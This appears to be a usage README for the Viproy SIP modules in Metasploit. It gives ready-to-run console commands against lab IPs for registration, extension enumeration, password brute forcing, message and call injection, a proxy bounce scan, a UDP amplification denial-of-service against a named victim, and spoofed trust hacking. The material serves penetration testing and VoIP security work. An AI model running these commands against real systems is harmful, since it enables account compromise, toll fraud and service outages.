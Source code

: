 # SIP Modules Usage

## Register 

use auxiliary/voip/viproy_sip_register <br>
set RHOSTS 192.168.1.222 <br>
set USERNAME 201<br>
set FROM 201<br>
set PASSWORD password123<br>
set PROTO TCP<br>
set LOGIN true<br>
set DEBUG true<br>
set VERBOSE true <br>
run<br>

http://www.viproy.com/captures/sip_register.pcapng<br>

## Options 

use auxiliary/voip/viproy_sip_options <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_options.pcapng<br>

## Negotiate 

use auxiliary/voip/viproy_sip_negotiate <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_negotiate.pcapng<br>

## Subscribe 

use auxiliary/voip/viproy_sip_subscribe<br>
set RHOST 192.168.1.221<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

http://www.viproy.com/captures/sip_subscribe.pcapng<br>

## Enumerate 

use auxiliary/voip/viproy_sip_enumerate <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 100<br>
set NUMERIC_MAX 210<br>
set VERBOSE false<br>
run<br>

http://www.viproy.com/captures/sip_enumerate.pcapng<br>


## Brute Force 

use auxiliary/voip/viproy_sip_bruteforce <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 101<br>
set NUMERIC_MAX 102<br>
set PASSWORD letmein123<br>
set VERBOSE true<br>
set DEBUG true<br>
run<br>

http://www.viproy.com/captures/sip_bruteforce.pcapng<br>

## Invite

use auxiliary/voip/viproy_sip_invite <br>
show options <br>
set CPORT 5075<br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set DEBUG true<br>
set VERBOSE true<br>
set LOGIN true<br>
set PASSWORD test12345<br>
set USERNAME 203<br>
run<br>

http://www.viproy.com/captures/sip_invite.pcapng<br>

## Message

use auxiliary/voip/viproy_sip_message<br>
show options <br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set USERNAME 203<br>
set LOGIN true<br>
set MESSAGE_CONTENT test<br>
set PASSWORD test12345<br>
run<br>

http://www.viproy.com/captures/sip_message.pcapng<br>

## Proxy Bounce Scan

use auxiliary/voip/viproy_sip_proxybouncescan <br>
show options <br>
set CPORT 5089<br>
set RHOSTS 192.168.1.220-225<br>
set RPORTS 5060-5070<br>
set SIP_SERVER_IP 192.168.1.222<br>
set SIP_SERVER_PORT 5060<br>
run<br>

http://www.viproy.com/captures/sip_proxybouncescan.pcapng<br>

## UDP Amplification DOS

use auxiliary/voip/viproy_sip_udpampdos <br>
set SIP_SERVERS 192.168.1.221<br>
set VICTIM_IP 192.168.1.222<br>
set VICTIM_PORT 5098<br>
set INTERFACE en5<br>
show options <br>
run<br>

http://www.viproy.com/captures/sip_udpampdos.pcapng<br>

## UDP Trust Hacking

use auxiliary/voip/viproy_sip_trusthacking <br>
set SRC_RHOSTS 192.168.1.220-225<br>
set SIP_SERVER 192.168.1.222<br>
set THREADS 5<br>
set INTERFACE eth0<br>
run<br>

http://www.viproy.com/captures/sip_trusthacking.pcapng<br>

